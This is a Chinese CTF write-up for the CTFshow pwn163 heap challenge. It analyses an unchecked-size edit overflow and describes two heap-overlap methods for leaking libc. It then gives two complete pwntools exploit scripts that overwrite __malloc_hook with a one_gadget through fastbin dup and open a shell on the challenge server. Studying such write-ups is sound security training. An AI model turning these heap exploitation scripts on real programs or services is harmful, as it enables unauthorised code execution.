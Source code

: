 ```yaml
---
title: CTFshow pwn163
tags:
    - pwn
    - 堆块重叠
categories:
    - 做题笔记
cover: /img/嘿猫猫.png
---
```

# CTFshow pwn163（堆块重叠|fastbin ）
## 前言
​        这两天在看IO_FILE 的相关利用，实在是给我看晕了。各种house of 确实有点东西。但是到最后发现自己的基础还是不够，除了fastbins 和 unsorted bins 稍微了解一点。其他的机制可以说是一坨。回来写点题，补一下基础。然后在结合这些基本的手法，去看高级的利用链。这个就是利用堆的布局，去达到我们的目的。或许也可以叫堆风水。
​        突然觉得堆风水这个名字起得太好了，主要可以自己构造布局，为我所控。真有一种**盖周天之变，化吾为王** 的感觉。

## ida分析
### edit函数
![image-20250529222118413](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/image-20250529222118413.png)
1.其他函数没有漏洞。只有edit，对size 没有检查，可以溢出。
2.在它的heaplist上会设置标志位检查这个堆块是否被free。
3.show的时候，会根据add时的size 进行打印内容。
4.add是采用calloc分配空间，初始化都为1。
5.free会把指针置空，size置0，标志置0。
6.并且，这是一道保护机制全开的题目。

## 思路分析
1.首先第一点是要泄露libc。由于保护机制全开，无法修改got表，同时程序的基地址无法获取。所以unlink的手段失效。显然是需要去修改hook。泄露libc的手段，是通过main_arena,也就是通过unsorted bins 中的堆块。由于add 会对堆块里的数据破坏，所以只能在堆块处于free 状态下打印。可是题目没有uaf 的漏洞，所以要让一个堆块又处于free 又处于 used 状态下。
2.如何构造呢？在这里提供两种思路。第一种思路：我们通过两个大小相同为size ，且地址连续的unsorted bin 的chunk来构造一个重叠。通过溢出，将第一个堆块的大小，修改为两个堆块的大小。然后free掉第一个堆块。此时libc会认为，第一个堆块的大小是2*size，所以实际上libc会把两个堆块的空间都放入unsorted bins中。此时再申清，size大小的堆块，就可以把第一个堆块申请出来，并且会把main_arena+0x58 写入到第二个堆块中去。此时只要show就可以拿到信息了；第二种思路，是通过fastbin ，把已经分配的空间再分配，来完成的。首先将小堆块free 放入fastbins，然后通过溢出修改其fd指针，指向目标unsorted bin 的chunk，通过两次add，把这块空间再分配，那么两个指针指向同一块空间了。之后free 大堆块，将其放入unsorted bin中，再show 小堆块，就可以拿到信息了。
3.拿到libc的信息之后，稍加计算得到malloc_hook 和 relloc的地址。然后就是fastbin dup 。在这里，本地打通之后，思路就是没问题的。但是远程会出现打不通的情况。原因是ibc版本不同所造成的偏移不一样。因此libcbase，one_gadget ，等地址可能会不一样。所以要打通远程得有正确的偏移。

## exp
### 思路一
```python
from esy import *
context.log_level='debug'
context.terminal=['tmux','splitw','-h','-l','66%']
io,elf=loadfile("pwn","pwn.challenge.ctf.show",28248)
libc=ELF("/home/tsq/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6")

def add(size):
    io.sendlineafter("Command: ",str(1))
    io.sendlineafter("Size: ",str(size))

def edit(idx,size,content):
    io.sendlineafter("Command: ",str(2))
    io.sendlineafter("Index: ",str(idx))
    io.sendlineafter("Size: ",str(size))
    io.sendafter("Content: ",content)

def free(idx):
    io.sendlineafter("Command: ",str(3))
    io.sendlineafter("Index: ",str(idx))

def show(idx):
    io.sendlineafter("Command: ",str(4))
    io.sendlineafter("Index: ",str(idx))

add(0x20) # 0  全责哥
add(0x68) # 1  半责哥
add(0x80) # 2  堆块重叠
add(0x80) # 3  被重叠了
add(0x80) # 4  
add(0x20) # 5

edit(1,0x6a,b'\x41'*0x68+b'\x21\x01')
free(2)
add(0x80) # 2
show(3)
io.recv(0x12)
#libcbase=u64(io.recv(6).ljust(8,b'\x00'))-0x3c3b78
libcbase=u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3c4b78
logvalue("libcbase",hex(libcbase))
malloc_hook=libcbase+0x3c4b10
realloc=libcbase+0x846c0
logvalue("malloc_hook",hex(malloc_hook))
one_gadget=libcbase+0x4526a
add(0x80) # 3
free(1)

edit(0,0x38,p64(0)*5+p64(0x71)+p64(malloc_hook-0x23))
add(0x68) # 1
add(0x68) # 6
#gdb.attach(io)
payload=b'\x00'*0xb+p64(one_gadget)+p64(realloc+8)
edit(7,len(payload),payload)
io.sendlineafter("Command: ",str(1))
io.sendlineafter("Size: ",str(0x68))

io.interactive()
```
### 思路二
懒得写了，直接那官方的题解了
```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
#io = process('./pwn')
io = remote('pwn.challenge.ctf.show',28145)
elf = ELF('./pwn')
libc = ELF('/home/bit/libc/64bit/libc-2.23.so')
    
def Alloc(size):
    io.recvuntil('Command:')
    io.sendline('1')
    io.recvuntil('Size:')
    io.sendline(str(size))
    
def Fill(index,content):
    io.recvuntil('Command:')
    io.sendline('2')
    io.recvuntil('Index:')
    io.sendline(str(index))
    io.recvuntil('Size:')
    io.sendline(str(len(content)))
    io.recvuntil('Content:')
    io.send(content)
    
def Free(index):
    io.recvuntil('Command:')
    io.sendline('3')
    io.recvuntil('Index:')
    io.sendline(str(index))
    
def Dump(index):
    io.recvuntil('Command:')
    io.sendline('4')
    io.recvuntil('Index:')
    io.sendline(str(index))
    io.recvuntil('Content: \n')
    A = io.recvline()
    return A

Alloc(0x10)
Alloc(0x10)
Alloc(0x10)
Alloc(0x10)
Alloc(0x80)
Free(1)
Free(2)
padding = p64(0)*3 + p64(0x21)
payload = padding*2 + p8(0x80)
Fill(0, payload)
Fill(3, padding)
Alloc(0x10)
Alloc(0x10)

payload = p64(0)*3 + p64(0x91)
Fill(3, payload)
Alloc(0x80)
Free(4)
libc_base = u64(Dump(2)[:8].ljust(8, "\x00"))-0x3c4b78
print(hex(libc_base))
    
Alloc(0x60)
Free(4)
payload = p64(libc_base + 0x3c4aed)
Fill(2, payload)
Alloc(0x60)
Alloc(0x60)
one = libc_base + 0x4526a
payload = p8(0)*3 + p64(0)*2 + p64(one)
Fill(6, payload)
Alloc(0x10)

io.interactive()
```